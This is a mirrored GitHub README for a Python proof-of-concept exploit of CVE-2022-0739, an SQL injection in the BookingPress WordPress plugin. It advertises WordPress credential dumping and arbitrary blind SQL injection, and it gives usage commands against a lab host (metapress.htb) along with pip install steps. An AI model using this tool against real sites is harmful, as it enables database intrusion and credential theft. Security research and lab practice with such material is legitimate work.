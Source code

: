 # CVE-2022-0739

🐍 Python Exploit for CVE-2022-0739

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/BKreisel](https://github.com/BKreisel) |
| Url      | [https://github.com/BKreisel/CVE-2022-0739](https://github.com/BKreisel/CVE-2022-0739)                                               |
| Stars    | 9                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-0739* exploit* python

</details>

## Readme

# CVE-2022-0739
Python PoC Exploit for [CVE-2022-0739](https://nvd.nist.gov/vuln/detail/CVE-2022-0739)

## Features
* Database Metadata Lookup
* Wordpress User Credential Dump
* Arbitrary Blind Query Injection 💉

## Usage
```bash
usage: cve-2022-0739 [-h] -u URL [-e EXEC]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of the page containing the BookingPress Widget
  -e EXEC, --exec EXEC  Optional query for Blind SQL Injection
```
### Information Leak
```bash
cve-2022-0739 --url http://metapress.htb/event
```

### Blind Injection
```bash
cve-2022-0739 --url http://metapress.htb/event --exec "SELECT SLEEP(5)"
```

## Installation

### PyPI
```bash
python3 -m pip install cve-2022-0739
```

### Manual 
```bash
python3 -m pip install cve_2022_0739-1.0.0-py3-none-any.whl
```
[Download Latest Release](https://github.com/BKreisel/CVE-2022-0739/releases/download/1.0.0/cve_2022_0739-1.0.0-py3-none-any.whl)

## Demo
### Information Leak
[![demo](https://asciinema.org/a/544403.svg)](https://asciinema.org/a/544403?autoplay=1)

### Blind Injection
[![demo-exec](https://asciinema.org/a/544404.svg)](https://asciinema.org/a/544404?autoplay=1)



## Get the content

```
git clone https://github.com/BKreisel/CVE-2022-0739
cd CVE-2022-0739
```

{% embed url="https://github.com/BKreisel/CVE-2022-0739" %}

<figure><img src="https://avatars.githubusercontent.com/u/1513073?v=4" alt=""><figcaption><p>BKreisel</p></figcaption></figure>
